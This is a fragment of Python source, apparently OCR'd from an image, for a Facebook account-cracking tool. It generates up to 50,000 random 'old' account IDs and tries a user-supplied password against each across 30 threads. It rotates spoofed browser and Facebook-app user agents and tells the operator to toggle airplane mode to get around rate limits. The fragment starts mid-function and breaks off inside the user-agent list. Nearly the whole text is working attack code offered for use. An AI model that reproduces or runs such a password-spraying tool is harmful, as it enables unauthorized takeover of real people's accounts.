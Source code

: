 			os.system("xdg-open https://youtube.com/channel/UCPErGt_PlIcbobfyCwle9HA")
			self.old2()
			exit()
		else:
			print (" Select Correctly ")
			time.sleep(1)
			Main()
 
	def old(self):
		x = 111111111
		xx = 999999999
		idx = "100000" 
		os.system("xdg-open https://youtube.com/channel/UCPErGt_PlIcbobfyCwle9HA");print(logo)
		limit = int(input(" \n\033[0;95m[+]\033[0;93m TOTAL IDS TO CRACK LIMIT 50000: "))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n\033[1;32m [!] Ex(123456) FOR Old IDZ\033[1;37m ")
				listpass = input("%s [?] ENTER PASSWORD :%s "%(G,Y))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(B))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(G,listpass))
				os.system("clear")
				print(logo)
				print("     \033[0;93m   FREE MODE ACTIVATE")
				print("\n\033[1;32m [+] CRACK HAS BEEN STARTED")
				print(" \033[1;37m[+] Note: Ok Open 70% JUST NOW")
				print(" [!] IF NO RESULT USE AIRPLANE MODE ON & OFF 5 SECONDS")
				print("\033[0;95m●▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬●\033[1;37m๑۩♡۩๑\033[0;95m●▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬●")
				print("\n")
				print("\033[0;97m")
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n \033[0;95m>>[PROCESS COMPLETE... \n\033[0;92m >>[Thanks for using my tool...")
		except Exception as e:exit(str(e))
 
	def api(self, uid, pwx):
		rua = random.choice([
		"Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z007;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]",
			  "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)",
  "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
  "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; CMDTDF; .NET4.0C; .NET4.0E; GWX:QUALIFIED)",
  "Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:40.0) Gecko/20100101 Firefox/40.0.2 Waterfox/40.0.2",
  "Mozilla/5.0 (Linux; Android 5.0; SAMSUNG SM-N900T Build/LRX21V) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/2.1 Chrome/34.0.1847.76 Mobile Safari/537.36",
  "Mozilla/5.0 (Linux; Android 4.4.2; SM-T217S Build/KOT49H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.84 Safari/537.36",
  "Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; MALNJS; rv:11.0) like Gecko",
  "Mozilla/5.0 (Linux; Android 4.4.2; RCT6203W46 Build/KOT49H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.84 Safari/537.36",
  "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
  "Mozilla/5.0 (Android; Tablet; rv:34.0) Gecko/34.0 Firefox/34.0",
  "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/6.0; Touch)",